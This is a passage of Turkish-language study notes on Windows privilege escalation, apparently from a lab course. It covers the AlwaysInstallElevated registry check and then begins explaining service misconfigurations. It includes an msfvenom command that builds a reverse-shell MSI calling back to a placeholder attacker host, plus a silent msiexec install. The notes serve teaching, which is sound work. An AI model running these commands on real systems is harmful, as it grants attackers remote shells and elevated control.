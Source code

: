 Şu iki registry'nin set edilmesi gerekir
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Sonrasında uygun zararlı .msi dosyası oluşturulur
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Sonra da bu .msi dosyasi çalıştırılır
```shell-session
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Hatalı Servis Yapılandırmaları

### Windows Servisleri

Servis Kontrol Yöneticisi tarafından yönetilir (SCM). SCM, hizmetlerin durumunu gerektiği gibi yönetmek, herhangi bir hizmetin mevcut durumunu kontrol etmek ve genel olarak hizmetleri yapılandırmak için bir yol sağlamakla görevli bir process'tir.

Her servisin kendine ait SCM tarafından bilgisayar başlatıldığında yürütülen bir executable'ı vardır. 

Örn: apphostsvc servisine dair bilgiler için
```
sc qc apphostsvc
```

```
[SC] QueryServiceConfig SUCCESS 

SERVICE_NAME: apphostsvc 
	TYPE : 20 
	WIN32_SHARE_PROCESS START_TYPE : 2 AUTO_START 
		ERROR_CONTROL : 1 NORMAL 
		BINARY_PATH_NAME : C:\Windows\system32\svchost.exe -k apphost 
		LOAD_ORDER_GROUP : 
		TAG : 0 
		DISPLAY_NAME : Application Host Helper Service 
		DEPENDENCIES : 
		SERVICE_START_NAME : localSystem
```

Burada görüldüğü üzere executable BINARY_PATH_NAME parametresinde, onu çalıştıran kullanıcı da SERVICE_START_NAME parametresinde gözükmektedir. 

Hizmetler, kimin hizmeti başlatma, durdurma, duraklatma, durumu sorgulama, yapılandırmayı sorgulama veya yeniden yapılandırma gibi ayrıcalıklara sahip olduğunu belirten İsteğe Bağlı Erişim Kontrol Listesi'ne (DACL) sahiptir. DACL, Process Hacker'dan (bilgisayarınızın masaüstünde mevcuttur) görülebilir:

